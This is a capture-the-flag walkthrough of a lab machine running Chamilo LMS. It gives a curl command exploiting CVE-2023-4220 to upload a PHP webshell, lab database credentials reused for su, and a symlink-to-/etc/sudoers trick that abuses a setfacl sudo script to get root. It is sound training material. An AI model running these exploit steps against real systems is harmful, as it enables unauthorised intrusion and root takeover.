





Exploitation Summary
Exploitation process: The target machine was running a Chamilo Learning Management System vulnerable to CVE-2023-4220, an unauthenticated file upload vulnerability that allows arbitrary file upload through the BigUpload functionality. By exploiting this vulnerability, I was able to upload a PHP webshell to the /main/inc/lib/javascript/bigupload/files/ directory without authentication.
After gaining initial access as www-data, I discovered database credentials in Chamilo's configuration file at app/config/configuration.php. The database password was reused by the user mtz, allowing horizontal privilege escalation via su.
For root access, I exploited a sudo misconfiguration where the mtz user could execute /opt/acl.sh as root. This script used setfacl to modify file ACLs but had inadequate path validation. By creating a symlink from /home/mtz/xd to /etc/sudoers, I bypassed the path restriction and granted write permissions to /etc/sudoers, allowing me to add sudo privileges for /bin/bash and escalate to root.
Technologies/Exploits: Chamilo LMS unauthenticated file upload (CVE-2023-4220), password reuse, sudo privilege escalation via symlink race in ACL modification script.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services on the target:

The scan reveals two primary services: SSH on port 22 and HTTP on port 80. I add the hostname permx.htb to my /etc/hosts file to resolve the virtual hosting properly.
Web Enumeration - Main Site
Navigating to http://permx.htb, I find an e-learning website. During the initial enumeration, I notice the site uses jQuery version 3.4.1. According to Snyk's vulnerability database, this version is vulnerable to two different XSS vulnerabilities, though these won't be immediately useful for gaining access.
Running gobuster on the main domain doesn't reveal particularly interesting directories:

I find a /lib directory containing a subdirectory called /wow, but both directories are empty and don't contain anything exploitable.
Subdomain Discovery
Having exhausted the main domain, I perform subdomain enumeration and have more success:

I discover the subdomain lms.permx.htb, which I add to my /etc/hosts file and navigate to.
LMS Portal Discovery
The subdomain hosts a small learning management portal:

At the footer of the page, I find valuable information:
- Administrator: Davis Miller
- Platform: Powered by Chamilo © 2025
When hovering over the administrator's name, an email address is revealed: admin@permx.htb. This could be useful for password reset attempts or phishing scenarios.
Directory Enumeration on LMS
I notice that the password reset functionality uses the path /main/auth. Running gobuster against this path reveals additional directories:

While these directories provide insight into the application structure, they don't immediately yield exploitable vulnerabilities.
Vulnerability Research - Chamilo CVE
Searching for "chamilo vulnerabilities" leads me to an interesting discovery: Exploit-DB 52083, a relatively recent vulnerability from March 2025 affecting Chamilo LMS.
Understanding CVE-2023-4220
The vulnerability allows unauthenticated remote code execution through an arbitrary file upload flaw in the BigUpload functionality. The vulnerable endpoint is located at:
http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupportedFiles uploaded through this endpoint are stored at:
/main/inc/lib/javascript/bigupload/files/{payload_name}The exploitation strategy is straightforward:
- Upload a PHP webshell through the vulnerable endpoint
- Access the webshell at its known location
- Execute commands to establish a reverse shell
Initial Access - Exploiting File Upload
I test the vulnerability by uploading a simple PHP webshell:
curl -X POST "http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported" \
-F "bigUploadFile=\"\";fileName=xd.php;type=application/x-php"The server responds with a success message:
The file has successfully been uploaded.Confirming the vulnerability, I can now access my webshell at:
http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/xd.php?cmd={command}Establishing Reverse Shell
Using the webshell, I send myself a reverse shell payload and successfully gain access to the machine as the www-data user.
Post-Exploitation Enumeration
After gaining initial access, I enumerate the system to understand the environment:
User Discovery
In /home, I discover a user named mtz, who is likely my target for privilege escalation.
Interesting Files
In /opt, I find a script owned by root called acl.sh. This could be relevant for privilege escalation if mtz has permissions to execute it.
Database Investigation
I notice MySQL is running locally, which makes sense as Chamilo would need database storage. I search for database credentials in Chamilo's configuration files.
Credential Discovery
Navigating to Chamilo's configuration directory at app/config, I find several configuration files:
-rwxr-xr-x 1 www-data www-data 9381 Aug 31 2023 config.yml
-rwxr-xr-x 1 www-data www-data 1583 Aug 31 2023 config_dev.yml
-rwxr-xr-x 1 www-data www-data 622 Aug 31 2023 config_prod.ymlThe development and production configs reference config.yml, which in turn references configuration.php for database credentials. In this file, I discover:
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;Database Analysis
I access MySQL using the discovered credentials and examine the database. In the user table, I find the admin account with a bcrypt hash and salt:
Password: $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra
Salt: awb0kMoTumbFvi22ojwv.Pg92gFTMOt837kWsGVbJN4While I attempt to crack this password hash with hashcat, I realize there might be a simpler approach.
Horizontal Privilege Escalation - Password Reuse
Testing for password reuse, I try using the database password with the mtz user:
su mtzThe password 03F6lY3uXAP2bkW8 works! This is a common security issue where database credentials are reused for system user accounts. I successfully escalate to the mtz user and retrieve the user flag.
Privilege Escalation to Root - ACL Script Exploitation
Now operating as mtz, I check for sudo privileges:
sudo -lThe output confirms that mtz has sudo permissions for the script I found earlier:
User mtz may run the following commands on permx:
(root) NOPASSWD: /opt/acl.shAnalyzing the ACL Script
Examining the contents of /opt/acl.sh:
#!/bin/bash
if [ "$#" -ne 3 ]; then
/usr/bin/echo "Usage: $0 user perm file"
exit 1
fi
user="$1"
perm="$2"
target="$3"
if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
/usr/bin/echo "Access denied."
exit 1
fi
# Check if the path is a file
if [ ! -f "$target" ]; then
/usr/bin/echo "Target must be a file."
exit 1
fi
/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"The script allows modifying file Access Control Lists (ACLs) using setfacl. It accepts three parameters: a username, permissions, and a target file. The script has security checks that appear to restrict operations to files within /home/mtz/* and prevent directory traversal with ...
Identifying the Vulnerability
However, there's a critical flaw in the validation logic: the script checks if the target is a file with [ ! -f "$target" ], but this check follows symbolic links. This means I can create a symlink within /home/mtz/ that points to any file on the system, and the script will accept it as valid.
Exploiting via Symlink
The exploitation strategy is to modify /etc/sudoers to grant myself unrestricted sudo access. First, I create a symbolic link from my home directory to /etc/sudoers:
ln -s /etc/sudoers /home/mtz/xdThe symlink /home/mtz/xd satisfies the path restriction check (/home/mtz/*), and since symlinks are treated as files by the -f test, it passes both validation checks.
Now I use the ACL script to grant myself write permissions on /etc/sudoers:
sudo /opt/acl.sh mtz rw /home/mtz/xdWith write access to /etc/sudoers, I can add a line granting myself full sudo privileges for /bin/bash:
echo "mtz ALL=(ALL) NOPASSWD: /bin/bash" >> /home/mtz/xdGaining Root Access
Finally, I execute bash with sudo to gain root privileges:
sudo bashThis grants me a root shell, allowing me to retrieve the root flag and complete the machine.